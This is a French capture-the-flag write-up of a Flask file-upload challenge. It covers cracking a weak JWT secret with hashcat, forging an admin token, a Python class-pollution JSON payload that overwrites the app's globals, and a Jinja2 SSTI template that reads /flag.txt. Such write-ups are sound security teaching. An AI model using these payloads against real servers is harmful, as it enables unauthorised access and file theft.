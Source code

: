 # Système Central de Dépot (SCD)
> Auteur : Al-oxos

## Recon

La description du challenge nous indique qu'un concurrent vient de lancer un site web de cloud permettant d'uploader des fichiers.
Il est également précisé que nous allons devoir compromettre le concurrent pour récupérer l'accès à des données senbibles.
Nous pouvons alors assez simplement en déduire que le challenge va consister à trouver un moyen d'obtenir une exécution de code arbitraire sur le site web du concurrent pour récupérer des informations sensibles sur la machine.
Il est également important de noter que nous disposons des sources de l'application WEB qui auraient été récupérées suite à une fuite de données.

En nous rendant sur l'application, nous pouvons voir différentes pages relativement vide, dont une page d'upload de fichiers, une page d'accueil et une page pour modifier une whitelist à laquelle nous n'avons pas accès car nous ne sommes pas administrateurs.

![Page d'accueil](accueil.png)

![Page d'upload](upload.png)

![Page whitelist](erreur.png)

Aucune conclusion intéressante ne peut être tirée de ces pages, il va donc falloir regarder le code source de l'application pour trouver des informations intéressantes.
En analysant le code source de l'applications, nous voyons rapidement du code qui va nous intéresser.
Premièrement, il existe un décorateur permettant de gérer un token jwt (présent dans les cookies du navigateurs) qui est utilisé pour vérifier si un utilisateur est administrateur ou non lors de l'accès à la page de modification de la whitelist.
Un commentaire présent dans le code ne nous laisse pas indifférents et très rapidement nous comprenons que le token jwt est signé avec une clé secrète faible (et donc facilement crackable) via des outils tels que hashcat ou jwt_tool.

Le commentaire en question : 
```python
app.config['SECRET_KEY'] = 'REDACTED' # J'ai caché la clé secrète pour des raisons de sécurité, mais il faudrait la changer en production car elle n'est pas du tout robuste...
```

Et le décorateur : 
```python
def jwt_required_admin(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        token = request.cookies.get('jwt_token')
        if not token:
            flash("Token manquant", "error")
            return redirect('/')
        try:
            decoded_token = jwt.decode(token, app.config['SECRET_KEY'], algorithms=["HS256"])
            if decoded_token.get("role") != "admin": #Gestion du role administrateur ici !!
                flash("Accès refusé, vous n'êtes pas admin", "error") 
                return redirect('/')
        except jwt.InvalidTokenError:
            flash("Token invalide", "error")
            return redirect('/')
        return f(*args, **kwargs)
    return decorated_function
```

Après utilisation d'hashcat avec la wordlist rockyou, nous trouvons presque instantanément la clé secrète : `iloveu`
Nous pouvons alors crafter un token jwt admin en le signant avec cette clé et en passant rôle à admin via JWT.io par exemple.
Nous obtenons ainsi l'accès à la page de modification de la whitelist.

![Page whitelist](whitelist.png)

Allons désormais analyser la logique de l'application, car nous n'avons ici quasiment aucune connaissance sur le fonctionnement de l'application et ce qu'elle permet.
Assez rapidement, nous comprenons que l'application permet d'uploader des fichiers, que deux variables globales `Dev` et `path` sont utilisées pour déterminer si l'application est en mode développement et le répertoire dans lequel les fichiers sont sauvegardés ainsi qu'une classe `ExtensionValidator` permettant de gérer les extensions autorisées par l'application.
La page de whitelist à laquelle nous avons désormais accès nous permet d'ailleurs de modifier cette classe instancée dans le code source de l'application en utilisant la fonction merge définie dans le fichier `utils.py`.
Bien que cela puisse sembler un petit peu archaïque, cette fonction est vulnérable à une **Class Pollution** qui peut permettre en plus de modifier les variables deja définies dans notre classe, de modifier également des attributs de l'application python (comme les variables globales par exemple) en raison de l'utilisation de setattr et getattr dans la fonction merge.

Pour plus d'informations sur les pollutions de classes : (Un blogpost très pertinant)[https://blog.abdulrah33m.com/prototype-pollution-in-python/]

```python
def merge_config(src, dst):
    for key, value in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(key) and isinstance(value, dict):
                merge_config(value, dst.get(key))
            else:
                dst[key] = value
        elif hasattr(dst, key) and isinstance(value, dict):
            merge_config(value, getattr(dst, key))
        else:
            setattr(dst, key, value) # Si on ajoute une entrée inconnu dans le merge, on va créer un attribut de classe avec le nom de l'entrée et la valeur de l'entrée, cela permet de réécrire des variables globales par exemple
```

Nous pouvons alors réaliser une **Class Pollution** pour modifier les variables globales `Dev` et `path` et ainsi changer le répertoire dans lequel les fichiers sont sauvegardés, ainsi que modifier le comportement de l'application puisque nous pourrons bypasser l'ajout automatique de `.txt` derrière les fichiers uploadés si Dev est true.

```python
filename = uploaded_file.filename
file_extension = filename.split('.')[-1]

if not any(file_extension in getattr(validator, category, []) for category in vars(validator) if not category.startswith('__')):
    flash("Extension de fichier non autorisée", "error")
    return redirect('/upload')

if not dev:
    filename = f"{filename}.txt"
```

## Challenge solve

Maintenant que nous savons qu'il est possible d'injecter un fichier avec l'extension de notre choix si nous modifions la whitelist tout cela sans que l'extension ne soit append de .txt (car nous pouvons passer Dev est désormais True) et que nous pouvons controler le répertoire dans lequel ce fichier sera sauvegardé (dans les répertoires enfants de l'application, soit uploads, templates ou static dans notre cas) grâce à notre **Class Pollution**, il ne nous reste plus qu'à trouver un moyen d'exécuter du code arbitraire sur le serveur en uploadant un fichier qui pourrait être interprété par le serveur.
Sachant que le serveur utilise Flask et donc Jinja2 pour le templating, nous pouvons essayer d'uploader un fichier .html contenant une SSTI Jinja2 et l'uploader dans un fichier que l'application utilise, par exemple `index.html`.

Nous débutons par réaliser notre **Class Pollution** en modifiant les variables globales `Dev` et `path` et en ajoutant l'extension `.html` à la whitelist. Voila le payload permettant de réaliser cela.

```json
{
	"image": ["jpg", "jpeg", "png"],
 	"report": "pdf",
 	"usefull": ["json","html"],
    "__class__":{
        "__init__":{
            "__globals__":{
                "dev":"True",
                "path": "templates/"
                }
            }
        }
}
```

Une fois notre payload envoyé grâce à notre accès administrateur, il ne nous reste plus qu'à uploader un fichier index.html contenant une SSTI Jinja2.

Payload : 
```html
<html>
    <body>
        {{ request.__class__._load_form_data.__globals__.__builtins__.open("/flag.txt").read() }}
    </body>
</html>
```

En rafraichissant la page (sur la route /) et grâce à la présence de la ligne 
```python
app.config['TEMPLATES_AUTO_RELOAD'] = True
```
dans le code source qui permet d'empêcher flask de mettre en cache les fichiers de templating, nous pouvons voir que le payload a bien fonctionné et que nous avons récupéré le flag.

![flag](flag.png)

Une idée assez pertinente aurait également pu être d'uploader un fichier (par exemple crontab) afin de réécrire celui sur le serveur et exécuter le script de notre choix à intervalle régulier. Cela n'est pas possible en raison de la fonction `safe_path_join` qui empêche de remonter dans l'arborescence des répertoires de l'application (enfin j'espere).